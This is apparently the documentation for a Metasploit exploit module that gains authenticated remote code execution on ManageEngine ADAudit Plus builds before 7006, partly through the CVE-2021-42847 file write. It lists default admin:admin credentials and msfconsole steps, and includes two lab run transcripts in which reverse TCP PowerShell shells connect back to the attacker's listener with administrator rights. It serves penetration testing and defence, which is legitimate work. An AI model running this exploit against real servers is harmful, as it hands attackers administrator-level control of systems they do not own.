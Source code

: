 ## Vulnerable Application
The module exploits security issues in ManageEngine ADAudit Plus prior to 7006 that allow authenticated users to execute arbitrary code
by creating a custom alert profile and leveraging the custom alert script component.

The module first runs a few checks to test the provided credentials, retrieve the configured domain(s) and obtain the build number.
If the credentials are valid and the target is vulnerable, the module creates an alert profile that will be triggered
for any failed login attempt to the configured domain.

For versions prior to build 7004, the payload is directly inserted in the custom alert script component of the alert profile.

For builds 7004 and 7005, the module leverages an arbitrary file write vulnerability (CVE-2021-42847) to create a Powershell script
in the alert_scripts directory that contains the payload. The name of this script is then provided as the value for the custom
alert script component of the alert profile.
For these builds, meterpreter payloads such as cmd/windows/powershell/meterpreter/reverse_tcp do not seem to work
and only the cmd/windows/powershell_reverse_tcp payload has been tested successfully.

The module will automatically delete the created alert profile before completing. This happens even if no shell was obtained.

This module requires valid credentials for an account with the privileges to create alert scripts.
It has been successfully tested against ManageEngine ADAudit Plus builds 7003 and 7005 running on Windows Server 2012 R2.

Successful exploitation will result in RCE as the user running ManageEngine ADAudit Plus, which will typically be the local administrator.

## Installation Information
Vulnerable versions of ADAudit Plus are available [here](https://archives2.manageengine.com/active-directory-audit/).

After running the installer, you can launch ADAudit Plus by opening Command Prompt with administrator privileges
and then running: `<install_dir>\bin\run.bat`

Versions 7005 and prior are vulnerable by default, so no special configuration is required after installing the application.

The default ADAudit Plus credentials (set as default options for the module) are `admin`:`admin`

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/windows/http/manageengine_adaudit_plus_authenticated_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `set USERNAME [username]`
6. Do: `set PASSWORD [password]`
7. Do: `exploit`

## Options
### AUTH_DOMAIN
The ADAudit Plus authentication domain to use. The default is `ADAuditPlus Authentication`. If the provided domain
does not match an authentication domain that is configured for the target, the module will throw an error and inform the user.

### USERNAME
Username to authenticate with. The default is `admin`, which matches the default ADAudit Plus credentials

### PASSWORD
Password to authenticate with. The default is `admin`, which matches the default ADAudit Plus credentials

## Scenarios
### ManageEngine ADAudit Plus build 7003 running on Windows Server 2012 R2
```
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > options 

Module options (exploit/windows/http/manageengine_adaudit_plus_authenticated_rce):

   Name         Current Setting             Required  Description
   ----         ---------------             --------  -----------
   AUTH_DOMAIN  ADAuditPlus Authentication  yes       ADAudit Plus authentication domain (default is ADAuditPlus Authentication)
   PASSWORD     admin                       yes       Password to authenticate with
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.91.250              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        8081                        yes       The target port (TCP)
   SSL          false                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                           yes       The base path to ManageEngine ADAudit Plus
   USERNAME     admin                       yes       Username to authenticate with
   VHOST                                    no        HTTP server virtual host


Payload options (cmd/windows/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LHOST         192.168.91.195   yes       The listen address (an interface may be specified)
   LOAD_MODULES                   no        A list of powershell modules separated by a comma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.91.195:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using configured authentication domain alias LIES.
[*] Trying to authenticate...
[*] Found 1 configured domain(s):
[*] - LIES.local: LIES.local
[+] Successfully authenticated
[+] The target appears to be vulnerable. The target is ADAudit Plus 7003
[*] Attempting to create an alert profile
[+] Successfully created alert profile UiYnupjyi24
[*] Attempting to trigger the payload via an authentication attempt for domain LIES using incorrect credentials.
[*] Trigger attempt completed. Let's hope we get a shell...
[*] Powershell session session 1 opened (192.168.91.195:4444 -> 192.168.91.250:54442) at 2022-10-12 12:09:43 +0300
[*] Powershell session session 2 opened (192.168.91.195:4444 -> 192.168.91.250:54441) at 2022-10-12 12:09:43 +0300
[*] Attempting to delete alert UiYnupjyi24
[+] Successfully deleted alert UiYnupjyi24

PS C:\Program Files\ManageEngine\ADAudit Plus\bin>whoami
lies\administrator
PS C:\Program Files\ManageEngine\ADAudit Plus\bin>
```

### ManageEngine ADAudit Plus build 7005 running on Windows Server 2012 R2
```
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.91.195:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using configured authentication domain alias LIES.
[*] Trying to authenticate...
[*] Found 1 configured domain(s):
[*] - LIES.local: LIES.local
[+] Successfully authenticated
[+] The target appears to be vulnerable. The target is ADAudit Plus 7005 and the endpoint for CVE-2021-42847 exists.
[*] Attempting to authenticate again in order to retrieve the required cookies.
[*] Attempting to create an alert profile
[*] Attempting to write the payload to /alert_scripts/mwlhr.ps1
[+] Successfully wrote the payload to /alert_scripts/mwlhr.ps1 in the ManageEngine ADAudit Plus install directory
[+] Successfully created alert profile dVmy0Ygz
[*] Attempting to trigger the payload via an authentication attempt for domain LIES using incorrect credentials.
[*] Trigger attempt completed. Let's hope we get a shell...
[!] Make sure to manually cleanup the mwlhr.ps1 file from /alert_scripts/ in the ManageEngine ADAudit Plus install directory
[*] Powershell session session 1 opened (192.168.91.195:4444 -> 192.168.91.250:41348) at 2022-10-12 12:59:28 +0300
[*] Powershell session session 2 opened (192.168.91.195:4444 -> 192.168.91.250:41347) at 2022-10-12 12:59:28 +0300
[*] Attempting to delete alert profile dVmy0Ygz
[+] Successfully deleted profile alert dVmy0Ygz

PS C:\Program Files\ManageEngine\ADAudit Plus\bin>whoami
lies\administrator
PS C:\Program Files\ManageEngine\ADAudit Plus\bin>
```
